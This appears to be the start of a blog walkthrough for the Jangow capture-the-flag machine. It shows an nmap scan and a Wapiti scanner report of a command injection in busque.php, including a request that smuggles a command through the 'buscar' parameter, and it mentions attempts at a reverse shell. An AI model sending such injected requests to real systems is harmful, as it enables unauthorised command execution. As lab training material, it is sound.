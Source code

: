 ```yaml
---
title: VulnHub Jangow CTF walkthrough
tags: [CTF, VulnHub]
---
```


You drag your coffin around
---------------------------

[Jangow](https://www.vulnhub.com/entry/jangow-101,754/) was a nice CTF. But maybe it was nice because I added several unnecessary steps to challenge myself even more.  

In this walkthrough I will show the different solutions I found to bypass an egress (but ingress too) rule.  

Let's go!  

```plain
Nmap scan report for 192.168.56.118
Host is up (0.00020s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-06-10 18:05  site/
```

As you can see all ports are filtered except FTP and HTTP.  

The vsFTPd version is not known to be vulnerable. It isn't the backdoored version neither.  

On the web server the directory listing is enabled and there is only one folder called *site*.  

Let's launch [Wapiti](https://github.com/wapiti-scanner/wapiti) on it:  

```plain
[*] Lancement du module exec
---
Exécution de commande dans http://192.168.56.118/site/busque.php via une injection dans le paramètre buscar
Evil request:
    GET /site/busque.php?buscar=a%3Benv%3B HTTP/1.1
    Host: 192.168.56.118
---
```

There is a command injection vulnerability in this *busque.php* script.  

Maybe you should not say *injection* here because you can directly pass commands without any escape character.  

While trying to get a reverse shell it is obvious that some egress filtering is in place.  
